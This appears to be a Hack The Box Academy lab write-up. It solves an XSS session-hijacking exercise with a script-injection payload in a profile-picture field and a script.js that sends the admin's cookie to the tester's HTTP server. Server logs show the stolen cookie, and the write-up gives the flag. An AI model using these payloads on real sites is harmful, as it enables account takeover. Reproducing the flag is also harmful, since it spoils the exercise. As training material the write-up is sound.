

# Section 08: Session Hijacking

Module: 19. Cross-Site Scripting (XSS)

---

## Questions & Answers

### 1. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.

Context:
- Test for the vulnerable fields, the vulnerable one is the `Profile picture URL` through `"><script+src=http://10.10.15.173:8080/url></script>`:
```bash
┌─[eu-academy-2]─[10.10.15.173]─[htb-ac-2162140@htb-tsgfrvwojz-htb-cloud-com]─[~]
└──╼ [★]$ sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.203.218 - - [10/Sep/2026 08:45:39] code 404, message File not found
10.129.203.218 - - [10/Sep/2026 08:45:39] "GET /url HTTP/1.1" 404 -
```
- Create a `script.js`:
```javascript
new Image().src='http://10.10.14.169:8080/index.php?c='+document.cookie;
```
- Payload `"><script+src=http://10.10.15.173:8080/script.js></script>`, got the cookie:
```bash
┌─[eu-academy-2]─[10.10.15.173]─[htb-ac-2162140@htb-tsgfrvwojz-htb-cloud-com]─[~]
└──╼ [★]$ sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.203.218 - - [10/Sep/2026 08:45:39] code 404, message File not found
10.129.203.218 - - [10/Sep/2026 08:45:39] "GET /url HTTP/1.1" 404 -
10.129.203.218 - - [10/Sep/2026 08:48:38] "GET /script.js HTTP/1.1" 200 -
10.129.203.218 - - [10/Sep/2026 08:48:39] code 404, message File not found
10.129.203.218 - - [10/Sep/2026 08:48:39] "GET /index.php?c=cookie=c00k1355h0u1d8353cu23d HTTP/1.1" 404 -
```
- Add the cookie and get the flag:


**Answer:** `HTB{4lw4y5_53cur3_y0ur_c00k135}`

---

[Back to Module Index](./README.md)
